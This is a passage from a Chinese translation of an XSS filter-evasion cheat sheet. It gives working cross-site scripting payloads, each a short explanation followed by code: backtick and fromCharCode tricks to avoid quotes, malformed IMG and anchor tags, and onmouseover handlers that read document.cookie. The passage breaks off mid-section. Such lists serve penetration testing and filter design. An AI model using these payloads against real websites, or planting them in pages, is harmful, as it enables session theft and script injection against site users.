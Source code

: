 ### 重音符混淆

如果你的javascript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹javascript代码。它也经常会非常有用因为xss过滤代码未考虑到这个字符。

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

* * *

### 畸形的A标签

跳过href属性，而直接获取xss实质攻击代码...提出被David Cross ~ 已验证在chrome浏览器

```
<a onmouseover="alert(document.cookie)">xxs link</a>
```

此外，chrome浏览器喜欢去不全确实的引号为你。如果你遇到阻碍那么直接省略它们吧，chrome将会正确的帮你不全缺失的引号在URL和script中。

```
<a onmouseover=alert(document.cookie)>xxs link</a>
```

* * *

### 畸形的IMG标签

最早被 Begeek发现（可以短小而干净的运行于任何浏览器），这个xss向量依靠松散的渲染引擎解析IMG标签中被引号包含的字符串来实现。我猜测它最初是为了正确编码而造成的。这将使它更加困难的去解释HTML标签。

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

* * *

### fromCharCode

如果没有任何形式的引号被允许，你可以eval()一串fromCharCode在javascript来创建任何你需要的xss向量。

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

* * *

### 默认SRC属性去绕过SRC域名检测过滤器

这将绕过绝大多数SRC域名过滤器。插入javascript代码在任何一个事件方法同样适用于热河一个HTML标签，例如Form、Iframe、Input、Embed等等。他将也允许任何任何该标签的相关事件去替换，例如onblur, onclick等，后面我们会附加一个可用的事件列表。由David Cross提供，Abdullah Hussam编辑。

```
<IMG SRC=# onmouseover="alert('xxs')">
```

* * *

### 默认SRC属性通过省略它的值
